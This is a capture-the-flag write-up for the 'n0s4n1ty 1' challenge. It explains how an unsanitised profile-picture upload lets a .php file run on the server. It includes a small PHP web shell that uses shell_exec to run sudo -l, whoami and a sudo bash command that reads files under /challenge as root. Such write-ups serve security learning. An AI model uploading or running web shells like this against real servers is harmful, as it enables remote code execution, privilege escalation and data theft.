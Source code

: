 # TITLE : n0s4n1ty 1
## Author : Prince Niyonshuti N.
## Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the **/root** directory.
You can access the web application here!
## Hints
- File upload was not sanitized
- Whenever you get a shell on a remote machine, check sudo -l
## Solution
In this challenge, the website allows users to upload a profile picture. However, instead of restricting uploads to images only, it accepts any file type. This is a vulnerability we can exploit.

By uploading a .php file, we can execute arbitrary PHP code on the server. From the hint provided, we know that we can run the sudo -l command, which is a Linux command to list allowed sudo privileges. This implies we can execute system commands through the PHP file.

Below is the PHP script I used:
<pre><code> <?php echo "<pre>"; // Check what sudo commands are allowed echo shell_exec("sudo -l"); // Display current user echo "Current user: " . shell_exec("whoami"); // Try running a command as root echo "Root check: " . shell_exec("sudo whoami"); // Navigate to the challenge directory and list its contents echo shell_exec("sudo bash -c 'cd /challenge && pwd && ls -la && cat config-box.py && cat metadata.json'"); echo "</pre>";
?>
</code></pre>

From the output of sudo -l, we can determine what commands we're allowed to run with elevated privileges. We also find that there is a /challenge directory in the root, which contains files like metadata.json. By reading that file, we can retrieve the flag.


